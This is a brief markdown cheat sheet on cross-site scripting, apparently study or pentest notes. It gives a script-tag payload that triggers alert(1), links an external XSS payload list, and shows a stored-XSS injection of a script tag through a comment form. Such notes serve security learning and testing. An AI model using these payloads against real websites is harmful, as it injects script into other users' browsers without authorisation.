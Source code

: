 # XSS

## XSS payload

Example :

* N°1 : ```<script\x20type="text/javascript">javascript:alert(1);</script>```

[XSS Github](https://github.com/payloadbox/xss-payload-list)

## Formulaire

Insert in form the following lines :
    ```<!-- Normal comment--><p>Your comment goes here </p> <!--Malicious comment--><p><script>evilcod()</script></p> ```

Results in source code :

![](img/xss1.png)